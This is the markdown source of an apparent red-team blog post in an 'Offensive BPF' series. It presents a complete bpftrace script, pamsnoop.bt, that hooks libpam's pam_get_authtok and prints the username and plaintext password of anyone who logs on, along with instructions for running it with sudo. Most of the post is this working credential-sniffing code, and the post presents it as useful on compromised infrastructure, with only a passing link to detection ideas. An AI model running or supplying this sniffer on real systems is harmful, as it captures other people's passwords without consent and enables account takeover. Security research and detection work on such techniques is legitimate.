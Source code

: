 ```yaml
---
title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
date: 2022-07-10T20:00:13-07:00
draft: true
tags: [
        "pentest", "red","research","ebpf"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
  description:  "Using eBPF in offensive security settings and mitigations"
  image: "https://embracethered.com/blog/images/2021/obpf.png"

---
```


This post is part of a series about **Offensive BPF**. Click the ["ebpf"](/blog/tags/ebpf) tag to see all related posts.

![Offensive BPF](/blog/images/2021/offensive-bpf.png)

It has been a while that we posted something in the ["Offensive BPF"](/blog/tags/ebpf) series. But recently there have been a couple of new cool ebpf based tools, such as [TripleCross](https://github.com/h3xduck/TripleCross), [boopkit](https://github.com/kris-nova/boopkit) and [pamspy](https://github.com/citronneur/pamspy). 

So, I thought it be quite fitting to do another post in the Offensive BPF series to keep raising awareness.


# Let's sniff PAM again - pamsnoop.bt

A few weeks back we discussed a [backdoor PAM module](/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) to grab `authtok` tokens (e.g. SSH passwords) when someone logs on to a machine. In this post we will build an eBPF program using `bpftrace` to do the same. Kudos for the idea go to [citronneur](https://github.com/citronneur/pamspy).


The short `bpftrace` script we are discussing is [here](https://github.com/wunderwuzzi23/Offensive-BPF/blob/main/bpftrace/pamsnoop.bt).

Let's walk through the details.

## Declaring the stub pam_handle struct

The  first step is to make sure we have the right data structure available. `pam_private.h` is [the header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h) in the Linux source. 

Technically you can  include the header file directly, but it might not be available if you trying to "live off the land" during a Red Team exercise. The `filler` is a bit of a hack, but it works quite well.

```
struct partial_pam_handle {
      char *filler[6];
      char *user;
};
```

Next, we create a `BEGIN` section to just show some information on the Console

```
BEGIN 
{ 
      printf("Welcome to Offensive BPF. Sniffing PAM authentications...");
      printf("Ctrl-C to exit.\n\n");
}
```

Now we create the core of the bpftrace program by hooking the `pam_getauthtok` call, reading the username and the password into a variable and printing them out once the function returns. 

```
uprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok {
      @user[tid] = ((struct partial_pam_handle *)arg0)->user;
      @authtok[tid] =  arg2;
}
    
uretprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok /@user[tid]/ {
  
      printf("Program: %s, Username: %s, AuthTok: %s\n", 
             comm, //process
             str(@user[tid]),  
             str(*@authtok[tid])); 
             
      delete(@user[tid]);
      delete(@authtok[tid]);
}
```

**Important:** If you have trouble understanding why there is a `uprobe` and a `uretprobe` go back in the ["Offensive BPF Series"](/blog/tags/ebpf) and to read up on how bpf programs are structured. 

Also, recall that `/ @user[tid] /` is the syntax to apply a filter.

## Running pamsnoop.bt

Run the script with `sudo bpftrace pamsnoop.bt`.

```
hacker@commodore:~$ sudo bpftrace tracepam.bt 
Attaching 3 probes...
Welcome to Offensive BPF. Sniffing PAM authentications...Ctrl-C to exit.

```

Now, whenever someone logs on to the machine you will see username and authentication token:

![pamsnoop](/blog/images/2022/ebpf.pam.png)

Quite useful when running across infrastructure that has `bpftrace` already installed.


# Conclusion

In this post we looked at more advanced `bpftrace` usage scenarios that adversaries can leverage and that defenders not to start being aware of. 

As a reminder, there is a defender/detection post we did in the past, located [here](/posts/2021/offensive-bpf-detections-initial-ideas/).


Cheers.


# References

* [pam_private header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h)
* [TripleCross](https://github.com/h3xduck/TripleCross) 
* [boopkit](https://github.com/kris-nova/boopkit) 
* [pamspy](https://github.com/citronneur/pamspy)
* [Offensive BPF Detection Ideas](/posts/2021/offensive-bpf-detections-initial-ideas/)

